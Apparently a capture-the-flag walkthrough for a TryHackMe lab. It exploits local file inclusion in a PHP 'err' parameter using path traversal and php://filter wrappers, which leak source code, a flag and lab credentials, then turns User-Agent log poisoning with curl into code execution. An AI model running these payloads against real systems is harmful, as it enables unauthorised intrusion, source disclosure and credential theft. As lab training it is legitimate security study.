LFI at /index.php?err=


https://10-10-83-175.p.thmlabs.com/index.php?err=../../../../../../../etc/flag


https://10-10-83-175.p.thmlabs.com/index.php?err=php://filter/convert.base64-encode/resource=index.php
```
PD9waHAgc2Vzc2lvbl9zdGFydCgpOwokZmxhZyA9ICJUSE17NzkxZDQzZDQ2MDE4YTBkODkzNjFkYmY2MGQ1ZDllYjh9IjsKaW5jbHVkZSgiLi9pbmNsdWRlcy9jcmVkcy5waHAiKTsKaWYoJF9TRVNTSU9OWyd1c2VybmFtZSddID09PSAkVVNFUil7ICAgICAgICAgICAgICAgICAgICAgICAgCgloZWFkZXIoICdMb2NhdGlvbjogbWFuYWdlLnBocCcgKTsKCWRpZSgpOwp9IGVsc2UgewoJJGxhYk51bSA9ICIiOwogIHJlcXVpcmUgIi4vaW5jbHVkZXMvaGVhZGVyLnBocCI7Cj8
```
results 
```
<?php session_start();
$flag = "THM{791d43d46018a0d89361dbf60d5d9eb8}";
include("./includes/creds.php");
if($_SESSION['username'] === $USER){                        
	header( 'Location: manage.php' );
	die();
} else {
	$labNum = "";
  require "./includes/header.php";
?
```

Include("./includes/creds.php");

https://10-10-83-175.p.thmlabs.com/index.php?err=php://filter/convert.base64-encode/resource=./includes/creds.php

```
PD9waHAgCiRVU0VSID0gIk1jU2tpZHkiOwokUEFTUyA9ICJBMEMzMTVBdzNzMG0iOwo
```
result 
```
<?php 
$USER = "McSkidy";
$PASS = "A0C315Aw3s0m";

```
McSkidy:A0C315Aw3s0m


get an rce from the log file : ./includes/logs/app_access.log

1. 
```bash
curl -A "<?php phpinfo();?>" http://10-10-83-175.p.thmlabs.com/login.php
```

2. visite : 

https://10-10-83-175.p.thmlabs.com/index.php?err=./includes/logs/app_access.log


search HOSTNAME :"lfi-aoc-awesome-59aedca683fff9261263bb084880c965"
